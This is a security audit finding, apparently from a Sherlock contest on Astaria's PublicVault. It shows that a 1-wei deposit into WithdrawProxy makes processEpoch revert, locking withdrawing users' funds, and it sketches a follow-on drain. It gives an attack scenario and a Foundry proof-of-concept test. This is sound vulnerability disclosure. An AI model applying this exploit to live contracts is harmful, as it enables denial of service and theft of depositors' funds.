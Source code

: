 rvierdiiev

high

# Possible to fully block PublicVault.processEpoch function. No one will be able to receive their funds

## Summary
Possible to fully block `PublicVault.processEpoch` function. No one will be able to receive their funds
## Vulnerability Detail
When liquidity providers want to redeem their share from `PublicVault` they call `redeemFutureEpoch` function which will create new `WithdrawProxy` for the epoch(if not created already) and then mint shares for redeemer in `WithdrawProxy`. PublicVault [transfer](https://github.com/sherlock-audit/2022-10-astaria/blob/main/src/PublicVault.sol#L190) user's shares to himself.

https://github.com/sherlock-audit/2022-10-astaria/blob/main/src/PublicVault.sol#L178-L212
```solidity
  function redeemFutureEpoch(
    uint256 shares,
    address receiver,
    address owner,
    uint64 epoch
  ) public virtual returns (uint256 assets) {
    // check to ensure that the requested epoch is not the current epoch or in the past
    require(epoch >= currentEpoch, "Exit epoch too low");


    require(msg.sender == owner, "Only the owner can redeem");
    // check for rounding error since we round down in previewRedeem.


    ERC20(address(this)).safeTransferFrom(owner, address(this), shares);


    // Deploy WithdrawProxy if no WithdrawProxy exists for the specified epoch
    _deployWithdrawProxyIfNotDeployed(epoch);


    emit Withdraw(msg.sender, receiver, owner, assets, shares);


    // WithdrawProxy shares are minted 1:1 with PublicVault shares
    WithdrawProxy(withdrawProxies[epoch]).mint(receiver, shares); // was withdrawProxies[withdrawEpoch]
  }
```

This function mints `WithdrawProxy` shares 1:1 to redeemed `PublicVault` shares.
Then later after call of `processEpoch` and `transferWithdrawReserve` the funds will be sent to the WithdrawProxy and users can now redeem their shares from it.

Function `processEpoch` decides how many funds should be sent to the `WithdrawProxy`.

https://github.com/sherlock-audit/2022-10-astaria/blob/main/src/PublicVault.sol#L268-L289
```solidity
    if (withdrawProxies[currentEpoch] != address(0)) {
      uint256 proxySupply = WithdrawProxy(withdrawProxies[currentEpoch])
        .totalSupply();


      liquidationWithdrawRatio = proxySupply.mulDivDown(1e18, totalSupply());


      if (liquidationAccountants[currentEpoch] != address(0)) {
        LiquidationAccountant(liquidationAccountants[currentEpoch])
          .setWithdrawRatio(liquidationWithdrawRatio);
      }


      uint256 withdrawAssets = convertToAssets(proxySupply);
      // compute the withdrawReserve
      uint256 withdrawLiquidations = liquidationsExpectedAtBoundary[
        currentEpoch
      ].mulDivDown(liquidationWithdrawRatio, 1e18);
      withdrawReserve = withdrawAssets - withdrawLiquidations;
      // burn the tokens of the LPs withdrawing
      _burn(address(this), proxySupply);


      _decreaseYIntercept(withdrawAssets);
    }
```

This is how it is decided how much money should be sent to WithdrawProxy.
Firstly, we look at totalSupply of WithdrawProxy. 
`uint256 proxySupply = WithdrawProxy(withdrawProxies[currentEpoch]).totalSupply();`.

And then we convert them to assets amount.
`uint256 withdrawAssets = convertToAssets(proxySupply);`

In the end function burns `proxySupply` amount of shares controlled by PublicVault.
` _burn(address(this), proxySupply);`

Then this amount is allowed to be sent(if no auctions currently, but this is not important right now).

This all allows to attacker to make `WithdrawProxy.deposit` to mint new shares for him and increase totalSupply of WithdrawProxy, so `proxySupply` becomes more then was sent to `PublicVault`.

This is attack scenario.

1.PublicVault is created and funded with 50 ethers.
2.Someone calls `redeemFutureEpoch` function to create new WithdrawProxy for next epoch.
3.Attacker sends 1 wei to WithdrawProxy to make totalAssets be > 0. Attacker deposit to WithdrawProxy 1 wei. Now WithdrawProxy.totalSupply > PublicVault.balanceOf(PublicVault).
4.Someone call `processEpoch` and it reverts on burning.

As result, nothing will be send to WithdrawProxy where shares were minted for users. The just lost money.

Also this attack can be improved to drain users funds to attacker. 
Attacker should be liquidity provider. And he can initiate next redeem for next epoch, then deposit to new WithdrawProxy enough amount to get new shares. And call `processEpoch` which will send to the vault amount, that was not sent to previous attacked WithdrawProxy, as well. So attacker will take those funds.
## Impact
Funds of PublicVault depositors are stolen.
## Code Snippet
This is simple test that shows how external actor can corrupt WithdrawProxy.

```solidity
function testWithdrawProxyDdos() public {
    Dummy721 nft = new Dummy721();
    address tokenContract = address(nft);
    uint256 tokenId = uint256(1);

    address publicVault = _createPublicVault({
      strategist: strategistOne,
      delegate: strategistTwo,
      epochLength: 14 days
    });

    _lendToVault(
      Lender({addr: address(1), amountToLend: 50 ether}),
      publicVault
    );

    uint256 collateralId = tokenContract.computeId(tokenId);

    uint256 vaultTokenBalance = IERC20(publicVault).balanceOf(address(1));
    console.log("balance: ", vaultTokenBalance);

    // _signalWithdrawAtFutureEpoch(address(1), publicVault, uint64(1));
    _signalWithdraw(address(1), publicVault);

    address withdrawProxy = PublicVault(publicVault).withdrawProxies(
      PublicVault(publicVault).getCurrentEpoch()
    );

    vm.deal(address(2), 2);
    vm.startPrank(address(2));
      WETH9.deposit{value: 2}();
      //this we need to make share calculation not fail with divide by 0
      WETH9.transferFrom(address(2), withdrawProxy, 1);
      WETH9.approve(withdrawProxy, 1);
      
      //deposit 1 wei to make WithdrawProxy.totalSupply > PublicVault.balanceOf(address(PublicVault))
      //so processEpoch can't burn more shares
      WithdrawProxy(withdrawProxy).deposit(1, address(2));
    vm.stopPrank();

    assertEq(vaultTokenBalance, IERC20(withdrawProxy).balanceOf(address(1)));

    vm.warp(block.timestamp + 15 days);

    //processEpoch fails, because it can't burn more amount of shares, that was sent to PublicVault
    vm.expectRevert();
    PublicVault(publicVault).processEpoch();
  }
```
## Tool used

Manual Review

## Recommendation
Make function WithdrawProxy.deposit not callable.